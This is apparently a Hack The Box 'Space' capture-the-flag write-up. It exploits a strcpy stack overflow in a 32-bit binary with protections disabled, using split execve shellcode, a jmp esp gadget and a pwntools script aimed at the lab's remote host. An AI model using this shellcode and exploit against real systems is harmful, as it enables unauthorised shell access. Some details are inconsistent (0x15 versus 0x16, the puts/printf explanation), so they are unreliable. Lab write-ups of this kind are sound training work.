





# Hack The Box : Space

## Analysing the binary

```
 ./space 
> aaaaaaaaa
```

The binary just takes input and returns nothing.</br>
Adding more number of a's causes it to Segfault.

```
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Checksec tells us that there are no significate stack protection : </br>

```
checksec space
[*] '/home/dos/HTB/sp/space'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So it means we can essentially perform a stack overflow and push our shellcode to get code execution</br>


### Analysing the decompilation

I put the binary in Cutter with the ghidra decompiler. </br>



It is seen that the main function prints out the `>` prompt and reads user input. It can read upto maximum 31 bytes and then passes it to the `vuln()` function which uses `strcpy` to copy it to a destination variable whose capacity is 20 bytes only.



There is a possible buffer overflow in this `vuln` function which we can exploit.


## Building the exploit 


### Getting the actual offset

I wrote a crash for the program to get the offset :

Put a break point at the return statement of the vuln function.</br>



We can see that we have got a crash. Upon checking the offset of the offset it is found to be 18. </br>

```
>>> cyclic_find(0x61666161)
18
```

```
from pwn import *

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
sh = gdb.debug("./space")
#for remote
#sh = remote("ip",1234)
padding = cyclic(30)
sh.sendlineafter("> ",padding)
sh.interactive()
```

This is the crash for the program.


### Trying to leak the libc


This program unlike the previous ones uses `printf` instead of puts. This makes it different from the normal libc leaking, since puts requires a format string as one of its parameters apart from the leak that we want to make.</br>


The following links and writeups can help to do the same : 

[https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit](https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit)

[https://github.com/VulnHub/ctf-writeups/blob/master/2016/sctf/pwn2.md](https://github.com/VulnHub/ctf-writeups/blob/master/2016/sctf/pwn2.md)

[https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html)

In gdb gef we can use `search-pattern` command to look for the string `%s` in the binary


```
gef➤  search-pattern "%s"
[+] Searching '%s' in memory
[+] In '/usr/lib32/libc-2.31.so'(0xf7dac000-0xf7f8f000), permission=r-x
  0xf7f39be1 - 0xf7f39be7  →   "%s\n\n" 
  0xf7f39bfd - 0xf7f39c03  →   "%s\n\n" 
  0xf7f3a1a7 - 0xf7f3a1ac  →   "%s/%s" 
  0xf7f3a1aa - 0xf7f3a1ac  →   "%s" 
```

Use ropper to find the required gadgets : 

```
ropper --file space
```

The following are some of the useful addresses I found : 

```
vuln = 0x080491a4
ret = 0x0804900a
print_plt = 0x08049040
print_got = 0x804b2d4
main = 0x080491cf
```

Address of the "%s" string : 

```
0xf7ff1374
```

However, this address belongs to the libc, whos permissions we wont be getting. 


## Taking a step back

If we look at the protections of the binary : 

```
checksec space
[*] '/home/dos/HTB/sp/space'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```


There is not NX RELRO or PIE enabled in the binary. So it seems we can directly use our shellcode, instead of going in the traditional way. </br>
But using the shellcode directly causes the program to segfault.


## Completely new strategy 

We will try to directly use our shellcode. But our classic `execve(/bin/sh)` shellcode is of almost 23 bytes and the `eip` gets overwritten at 18 bytes only and adding more shellcode after that will only result in the shellcode getting overwritten.</br>


### Strategies to get fit the shellcode in the buffer

One of the things that we can do it divide the shellcode into two halves, we can put the first half (18 bytes) at the beginning and the rest after the `jmp esp` statement. Then we can modify the shellcode the point to the beginning of the stack where the rest of our shellcode is present and then jump to it.

So it will look something like this : 

```
shellcode(almost_all_of_it) + jmp_esp + the_rest_of_it + "align esp and jump to esp"
```


So, I made a few changes to the classic execve shellcode as follows : 


```
[SECTION .text]
global _start
_start:

xor edx,edx ; edx = 0 (it will be used as *envp = NULL)
xor eax,eax ; eax = 0 (it will be used as a null-terminating char)
sub esp,0x16
jmp esp
push eax
push 0x68732f2f
push 0x6e69622f ; here you got /bin//sh\x00 on the stack
mov ebx,esp ; ebx <- esp; ebx points to /bin//sh\x00
mov al, 0xb ; al = 0xb, 11, execve syscall id
int 0x80 ; execve("/bin//sh\x00",Null,Null)
```

The things that I have added are : 

1) xor edx,edx ----> This will clear up the envp pointer and will set it to NULL</br>
2) After `xor eax,eax` I have added `sub esp,0x15`. Since, the part of the shellcode which will be present at the beginning will be 0x15 bytes before.</br>
3) `jmp esp` ----> After pointing to the correct location, it jumps to esp i.e rest of the shellcode</br>


### Compiling the shellcode

The shellcode must be compiled without the `sub esp,0x15` and `jmp esp` because it will result in Segmentation fault. They are given for the easy creation of the shellcode </br>
Compile the shellcode as follows : </br>

```
nasm -f elf shell.asm

ld -m elf_i386 -s -o shell shell.o
```

This will give an executable called `shell` which when run, can spawn a shell.</br>


### Getting the opcodes from the shellcode 

Use objdump to get the opcodes from the shellcode : 

```
objdump -D -Mintel shell | less

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <.text>:
 8049000:       31 d2                   xor    edx,edx
 8049002:       31 c0                   xor    eax,eax
 8049004:       83 ec 16                sub    esp,0x16
 8049007:       ff e4                   jmp    esp
 8049009:       50                      push   eax
 804900a:       68 2f 2f 73 68          push   0x68732f2f
 804900f:       68 2f 62 69 6e          push   0x6e69622f
 8049014:       89 e3                   mov    ebx,esp
 8049016:       b0 0b                   mov    al,0xb
 8049018:       cd 80                   int    0x80
```


## Crafting your own payload

I will craft the payload as stated earlier </br>

```
payload = b'a' + b'\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + jmp_esp + b'\x31\xd2\x31\xc0\x83\xec\x15\xff\xe4'
```

The first half contains the part of the shellcode from `push eax` till the end</br>
After that it has a jmp_esp instruction taken from the binary which points the IP to the stack and starts executing oru shellcode.</br>
Then we have the first part of the shellcode consisting of the parts from `xor edx,edx` to `jmp esp`. The extra padding was given at the beginning of the payload, because the length of the first part of the payload was coming out to be 17 bytes, which is not enough to overflow the buffer.</br>
Towards the end the shellcode points toward 0x15 bytes back of the current esp value and jumps to that, which causes the rest of the shellcode to execute.</br>


## Exploiting locally 

If we run the exploit locally with gdb attached the following happens :




We can get a shell

## Exploiting remote





## Final exploit


```
#jmp_esp = 0x0804919f:
from pwn import *

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
#sh = gdb.debug("./space")
#for remote
sh = remote("docker.hackthebox.eu",31465)
jmp_esp = p32(0x0804919f)

padding = b'a'*18
payload = b'a' + b'\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + jmp_esp + b'\x31\xd2\x31\xc0\x83\xec\x15\xff\xe4'
sh.sendlineafter("> ",payload)

sh.interactive()
```


